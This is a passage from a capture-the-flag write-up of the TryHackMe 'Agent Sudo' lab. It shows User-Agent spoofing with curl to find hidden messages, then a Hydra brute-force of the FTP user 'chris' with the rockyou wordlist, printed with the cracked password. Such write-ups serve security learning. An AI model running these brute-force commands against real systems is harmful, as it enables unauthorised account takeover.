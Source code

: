 - Curling the web server with a custom user-agent reveals a note:

```sh
┌─[cyberxploit@parrot]─[~/Desktop/projects/ctfs/personal/thm/machines/agent_sudo]
└──╼ $ curl -i http://10.10.205.71
Announcement
Use your User-Agent Code to view #Snip

From
Agent R 
```

This luckily returned a useful information here maybe we should try using curl with other options or burpsuite or something just so we can capture the request and modify the `user-agent` header. Also looking at where the above message is coming from (Agent R), this might mean something maybe we can `iterate` over the alphabets hopefully there are some Characters for the other agents.

```sh
┌─[cyberxploit@parrot]─[~/Desktop/projects/ctfs/personal/thm/machines/agent_sudo]
└──╼ $ curl -A "C" -L http://10.10.205.71
Attention chris, <br><br>
Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak! <br><br>
From,<br>
Agent R 
```

In the above `curl` command uses the `-A` switch which allows us to enter the `user-agent` which is `C` in this case and we use `-L` switch to follow `redirects`. Also that can be achieved manually using a `browser` and `burpsuite` as illustrated down below:

![](attachments/Pasted%20image%2020250408095931.png)

After following the `redirects` it send another `GET` request method to use with the `agent_C_attention.php` endpoint which when forwarded show us a different page.


![](attachments/Pasted%20image%2020250408095813.png)

And looking at the response, We notice another message which contains a username of chris (potentially from Agent C --> Agent chris). The message is telling us to inform `Agent J` about some stuff As soon as possible. Further more, The messages indicate we should change our password because it is a weak password. Ohhhyyyyya! You thinking of what I am thinking --> bruteforcing the user `chris` using `hydra`.


![](attachments/Pasted%20image%2020250408095348.png)

Lets now try to `brute-force` the user of chris using hydra to see if we can get any password. To do that we run the below command in our terminal.

```sh
┌─[cyberxploit@parrot]─[~/Desktop/projects/ctfs/personal/thm/machines/agent_sudo]
└──╼ $ hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://$IP:21
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-04-08 10:03:44
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.10.189.142:21/
[STATUS] 241.00 tries/min, 241 tries in 00:01h, 14344158 to do in 991:60h, 16 active
[21][ftp] host: 10.10.189.142   login: chris   password: crystal
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-04-08 10:04:56

```
